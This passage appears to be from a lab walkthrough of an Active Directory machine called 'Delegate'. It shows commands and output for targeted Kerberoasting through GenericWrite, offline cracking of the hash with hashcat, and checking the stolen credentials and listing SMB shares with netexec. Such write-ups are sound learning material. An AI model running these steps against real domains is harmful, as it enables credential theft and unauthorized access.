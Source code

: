 BH suggests using [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) to abuse the GenericWrite permission over the user object.

<img src="/assets/img/delegate/Untitled 3.png" alt="Untitled 3.png" style="width:800px;">

And it worked great! A new tool to the arsenal.

```bash
python3 ~/Desktop/tools/targetedKerberoast/targetedKerberoast.py -u A.Briggs -p '<REDACTED>' -d delegate.vl --request-user "N.Thompson"
[*] Starting kerberoast attacks
[*] Attacking user (N.Thompson)
[+] Printing hash for (N.Thompson)
$krb5tgs$23$*N.Thompson$DELEGATE.VL$delegate.vl/N.Thompson*$e7b31...
```

It was a weak password, so we could crack it.

```bash
hashcat -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt
$krb5tgs$23$*N.Thompson$DELEGATE.VL$delegate.vl/N.Thompson*$e...:<REDACTED>
```

NetExec confirms that the credentials are valid. According to BH, we should have WinRM access.

```bash
netexec smb 10.10.74.48 -u N.Thompson -p '<REDACTED>' --shares
SMB         10.10.74.48     445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
SMB         10.10.74.48     445    DC1              [+] delegate.vl\N.Thompson:<REDACTED> 
SMB         10.10.74.48     445    DC1              [*] Enumerated shares
SMB         10.10.74.48     445    DC1              Share           Permissions     Remark
SMB         10.10.74.48     445    DC1              -----           -----------     ------
SMB         10.10.74.48     445    DC1              ADMIN$                          Remote Admin
SMB         10.10.74.48     445    DC1              C$                              Default share
SMB         10.10.74.48     445    DC1              IPC$            READ            Remote IPC
SMB         10.10.74.48     445    DC1              NETLOGON        READ            Logon server share 
```